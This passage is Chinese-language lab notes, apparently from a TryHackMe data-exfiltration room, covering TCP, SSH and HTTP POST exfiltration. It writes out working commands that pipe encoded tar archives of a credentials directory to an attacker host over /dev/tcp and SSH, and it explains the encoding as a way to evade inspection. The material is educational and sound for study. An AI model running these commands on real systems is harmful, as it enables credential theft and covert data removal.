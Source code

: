         ```
        thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
        ```
        
        - `tar zcf - task4/`: 将 `task4/` 目录压缩 (`z`) 并打包 (`c`) 成归档文件 (`f`)，输出到标准输出 (`-`)。
        - `base64`: 将 tar 包内容进行 Base64 编码。
        - `dd conv=ebcdic`: 使用 `dd` 命令，`conv=ebcdic` 在此场景中可能用于某种形式的混淆或确保特定格式传输，但直接使用标准输出到 TCP 套接字更为常见。更直接的方式可能是 `... | nc <attacker_ip> <port>`。
        - `> /dev/tcp/192.168.0.133/8080`: (Bash 特性) 重定向输出到指定 IP 和端口的 TCP 套接字。
    3. **攻击者机器 (JumpBox) 解码数据**: 接收到数据后 (存储在 `/tmp/task4-creds.data`)：
        
        Bash
        
        ```
        thm@jump-box:/tmp/$ dd conv=ascii if=task4-creds.data | base64 -d > task4-creds.tar
        thm@jump-box:/tmp/$ tar xvf task4-creds.tar
        thm@jump-box:/tmp/$ cat task4/creds.txt
        ```
        
        - `dd conv=ascii if=task4-creds.data`: 如果发送时用了 `conv=ebcdic`，这里用 `conv=ascii` 进行逆向转换。
        - `base64 -d`: Base64 解码。
        - `tar xvf task4-creds.tar`: 解包 (`x`) 归档文件 (`f`) 并显示过程 (`v`)。 <!-- end list -->
    
    - **注意**: 使用 Base64 和可能的 EBCDIC 编码是为了使传输的数据非人类可读，增加检查难度。

##### B. SSH 协议窃取 (SSH Protocol Exfiltration)

- **原理与适用场景**: 利用 SSH 协议建立的安全加密通道传输数据。可以使用 SCP (Secure Copy Protocol) 或直接通过 SSH 客户端执行命令来传输文件或数据流。
- **步骤与示例 (使用 SSH 客户端)**:
    
    - **前提**: 攻击者控制的服务器已启用 SSH 服务并可接收连接。 <!-- end list -->
    
    1. **受害者机器准备并发送数据**: 假设数据在 `task5/creds.txt`。
        
        Bash
        
        ```
        thm@victim1:$ tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
        ```
        
        - `tar cf - task5/`: 打包 `task5/` 目录内容到标准输出。
        - `ssh thm@jump.thm.com "cd /tmp/; tar xpf -"`: 通过 SSH 连接到 `jump.thm.com`，在远程执行命令。远程命令首先切换到 `/tmp/` 目录，然后从标准输入 (`-`) 解包 (`xp`) 接收到的 tar 数据流。
    2. **攻击者机器 (jump.thm.com) 验证**: 文件将被解压到 `/tmp/task5/` 目录下。

##### C. HTTP/S 协议窃取 (HTTP/S Protocol Exfiltration)

- **原理与适用场景**: 通过 HTTP 或 HTTPS 协议传输数据，因其是常见的 Web 流量，较难被检测和区分。使用 POST 方法比 GET 方法更隐蔽，因为 POST 请求的数据体不会像 GET 请求的参数那样直接记录在标准的 Web 服务器访问日志中。
- **1. HTTP POST 数据传输**:
    - **前提**: 攻击者控制一台 Web 服务器，并部署了能够处理传入数据（如 PHP、Python、NodeJS 脚本）的服务端脚本。
    - **POST 请求优点**: 不被缓存、不保留在浏览器历史记录、无法收藏、对数据长度通常没有限制。
    - **步骤与示例**:
        
        - **场景**: 攻击者控制 `web.thm.com`，敏感数据从 `victim1.thm.com` 发送。 <!-- end list -->
        
        1. **攻击者服务器端准备 (PHP 示例 - `contact.php`)**:
            